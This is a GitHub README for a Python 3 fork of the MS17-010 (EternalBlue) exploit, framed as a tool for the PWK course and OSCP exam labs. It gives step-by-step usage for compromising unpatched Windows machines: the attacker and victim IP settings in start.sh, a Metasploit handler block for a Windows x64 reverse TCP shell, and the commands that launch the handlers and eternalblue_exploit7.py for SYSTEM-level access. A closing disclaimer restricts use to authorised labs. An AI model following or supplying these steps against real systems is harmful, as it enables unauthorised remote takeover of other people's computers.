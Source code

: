 # Updated for Python3

# MS17-010

## Intro
This repository is forked from the fantastic work by [Worawit](https://github.com/worawit/MS17-010/) on the NSA's exploit leaked by the ShadowBrokers.

This is a python port of the exploit and has an excellent reliability for exploiting Windows OS that are vulnerable to [MS17-010/EternalBlue](http://www.wired.co.uk/article/what-is-eternal-blue-exploit-vulnerability-patch).
use the checker.py script to see if the target is unpatched/vulnerable.

Worawits script is great but its not so simple or quick to compile and has many moving parts to get up and running. 
It is necessary to work with raw Assembly language, shellcode for multiple architectures, msfconsole etc. 

What I have created a very handy bash script which will do all of the hard work for you and also gives instructions on how to exploit.

## Why create this ?
Because knowing how the exploit works is a lot more fun that firing up metasploit as well as that I created this out of necessity for the [PWK course](https://www.offensive-security.com/information-security-training/penetration-testing-training-kali-linux/) and the [OSCP certification](https://www.offensive-security.com/information-security-certifications/oscp-offensive-security-certified-professional/)  . Those of you undertaking either will be well aware of the fact that Metasploit is extremely limited during exam time, so this 
exploit offers you a very fast reliable and allowed way to exploit any targets with port 445,139 open that are vulnerable.

My generation script will output 2 files that can be read into msfconsole by using the -r flag (msfconsole -r /root/EternalBlueX64.rc), so you dont have to keep typing out 
```
use exploit/multi/handler
set PAYLOAD windows/x64/shell_reverse_tcp
set EXITFUNC thread
set ExitOnSession false
set LHOST 192.168.*.**
set LPORT 5555
exploit -j
```

# Reliability
Its very reliable, I have not come across an unpatched Windows 7 PC that it has not worked against (in PWK and personal Lab environment).
If the system is vulnerable and it does not work the first time around keep trying.. or take a break and regenerate the shellcode again and again, eventually you will own the computer and have full **nt authority\system** rights on the pwned system.


# Use



To get up and running theres 2 things you need to do, open up the start.sh file and add you own ip as the **attackerIP** and the victim OS IP in **vulnerableIP** you can optionally change the port numbers that msfconsole will listen on but generally you can leave them as is.
```
# change these values to your attacking IP and 2 ports for 32bit/64bit Architecture
attackerIP=192.168.2.133 # put your ip here*
vulnerableIP=192.168.2.253  # put the victim ip here*
arch_x86_port=4444  # x86 msfconsole multi handler port (optional change)
arch_x64_port=5555 # x64 msfconsole multi handler port (optional change)
```

fire up  the script and just follow the on screen instructions after the 7 step generation process. 

```
./start.sh
```

You will then need to copy 3 lines from the output 1 is the actual execution of the python **eternalblue_exploit7.py** exploit and the other 2 are the msfconsole helpers to start up 2 exploit/multi/handlers.. something similar to the following but youll see your specific commands in the output.

```
msfconsole -r "/root/MS17-010/output/EternalBlueX64.rc"
msfconsole -r "/root/MS17-010/output/EternalBlueX86.rc"
python /root/MS17-010/eternalblue_exploit7.py 192.168.*.** /root/MS17-010/bin/sc_all.bin 3
```


# Disclaimer
Do not use this on systems unless you have been given explicit permission. 
This is created for use in the PWK labs and OSCP exam lab. 
It may have unpreceedented consequenses both legally and ethically if used inappropriately. 
This is a POC script and I bare no responsibility for its use by others.
